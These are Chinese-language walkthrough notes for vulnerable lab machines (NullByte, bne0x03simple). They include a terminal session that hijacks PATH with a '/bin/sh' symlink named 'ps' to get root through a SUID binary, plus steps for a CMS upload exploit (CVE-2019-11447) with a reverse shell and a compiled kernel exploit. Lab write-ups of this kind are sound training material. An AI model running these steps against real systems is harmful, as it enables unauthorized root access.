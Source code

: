 ```
suid 可执行文件提权


ramses@NullByte:/var/www/backup$ ls -laih procwatch 
391947 -rwsr-xr-x 1 root root 4.9K Aug  2  2015 procwatch
ramses@NullByte:/var/www/backup$ ./procwatch 
  PID TTY          TIME CMD
19218 pts/0    00:00:00 procwatch
19219 pts/0    00:00:00 sh
19220 pts/0    00:00:00 ps
ramses@NullByte:/var/www/backup$ ln -s /bin/sh ps
ramses@NullByte:/var/www/backup$ export PATH=.:$PATH
ramses@NullByte:/var/www/backup$ ./procwatch 

```





## bne0x03simple

唉，不能懒呀 开80 cms 漏洞利用 cve-2019-11447  他好像是能上传

运行脚本没有反弹，进入上传目录，点击脚本 终端监听 可以反弹。

搜索 

uname -a

searchsploit linux kernel 版本

ubuntu 14.0

gcc -static 37088.c ./a.out 就提权了



## kioptrix1.2



